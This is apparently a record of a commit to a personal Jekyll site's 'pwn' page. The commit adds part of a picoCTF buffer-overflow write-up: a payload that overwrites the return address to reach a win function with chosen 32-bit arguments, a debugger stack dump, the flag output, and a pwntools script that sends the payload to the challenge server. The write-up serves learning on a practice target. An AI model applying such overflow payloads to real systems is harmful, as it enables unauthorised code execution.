

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 6827 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 7337 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -300,3 +300,42 @@ void win(unsigned int arg1, unsigned int arg2) {
 
 We want to overwrite arg1 and arg2. 64-bit programs take function paramaters from registers, <br>
 but for 32-bit they're just read off the stack.
+
+Editing the payload:
+
+```python
+payload = b"A"*112 + p32(0x08049296) + b'AAAA' + p32(0xCAFEF00D) + p32(0xF00DF00D)
+```
+
+We can see we've changed the first 2 stack variables:
+
+```
+00:0000│ esp 0xffffd5f4 ◂— 0xcafef00d
+01:0004│     0xffffd5f8 ◂— 0xf00df00d
+02:0008│     0xffffd5fc ◂— 0x300
+03:000c│     0xffffd600 —▸ 0xffffd620 ◂— 0x1
+04:0010│     0xffffd604 —▸ 0xf7e1fe2c (_GLOBAL_OFFSET_TABLE_) ◂— 0x21fd4c
+05:0014│     0xffffd608 ◂— 0x0
+06:0018│     0xffffd60c —▸ 0xf7c20af9 (__libc_start_call_main+121) ◂— add esp, 0x10
+07:001c│     0xffffd610 ◂— 0x0
+```
+
+Printing the flag :)
+
+```
+$ ./vuln < payload
+Please enter your string:
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AA�AAAA
+testflag
+```
+
+```python
+from pwn import p32, remote
+
+payload = b"A"*112 + p32(0x08049296) + b'AAAA' + p32(0xCAFEF00D) + p32(0xF00DF00D)
+io = remote("saturn.picoctf.net", 54716)
+io.read()
+io.sendline(payload)
+io.read()
+print(io.read())
+```
````
